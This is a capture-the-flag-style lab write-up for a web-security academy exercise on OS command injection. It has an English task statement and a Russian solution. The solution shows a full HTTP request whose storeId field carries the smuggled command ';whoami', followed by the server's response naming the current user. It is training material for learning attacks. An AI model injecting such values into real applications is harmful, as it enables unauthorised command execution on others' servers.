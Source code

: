 # OS command injection, simple case
APPRENTICE

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.

## Решение
Форма проверки наличиая товара отправляет на сервер POST-запрос с параметрами `productId=1&storeId=1`. Добавлю к ID хранилища строку `;whoami`:
```
POST /product/stock HTTP/2
Host: 0aa300f204dee15e8498f4070009008b.web-security-academy.net
Cookie: session=xT1WgaMwfd42T1WtIJE4cZg3RcafaokU
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300f204dee15e8498f4070009008b.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0aa300f204dee15e8498f4070009008b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1;whoami
```
```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 16

62
peter-mHaJHz

```
